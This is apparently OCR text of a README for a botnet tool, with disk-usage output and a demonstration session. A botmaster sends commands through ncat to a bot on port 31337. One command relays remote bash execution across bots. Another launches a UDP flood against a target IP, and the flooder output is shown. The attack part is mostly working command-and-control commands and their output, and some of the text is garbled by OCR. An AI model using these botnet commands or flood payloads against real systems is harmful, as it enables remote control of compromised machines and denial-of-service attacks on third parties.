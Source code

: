 udev            983M     0  983M   0% /dev

tmpfs           200M  2.9M  197M   2% /run

/dev/sda1       124G  3.0G  115G   3% /

tmpfs           998M     0  998M   0% /dev/shm

tmpfs           5.0M     0  5.0M   0% /run/lock

tmpfs           998M     0  998M   0% /sys/fs/cgroup

tmpfs           200M     0  200M   0% /run/user/0


how does the !dc command work in the blockchain system ?

example

 
root@lamer:~# echo '!dc 10.0.0.107 !bash uptime' | ncat 10.0.0.103 31337
               |
               |
               |                         
BoTMaster0----CMD--->BoT0--CMD->BoT342--OUTPUT-->BoTMaster0

or you can connect to BoT342 to do the same

now let me dos one of my servers

root@lamer:~# echo '!glob !udp 10.0.0.106 53 1 1024 2 30' | ncat 10.0.0.103 31337
Tue Dec 24 00:11:16 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Setting up Sockets...

Tue Dec 24 00:11:17 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Setting up Sockets...

Tue Dec 24 00:11:18 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Starting Flood > 10.0.0.106 ...
Starting Flood > 10.0.0.106 ...
Setting up Sockets...

Tue Dec 24 00:11:19 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Starting Flood > 10.0.0.106 ...
Setting up Sockets...

Tue Dec 24 00:11:20 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Tue Dec 24 00:11:21 2019

UDP Flooder v1.2.8 FINAL by ohnoes1479
Starting Flood > 10.0.0.106 ...
Setting up Sockets...
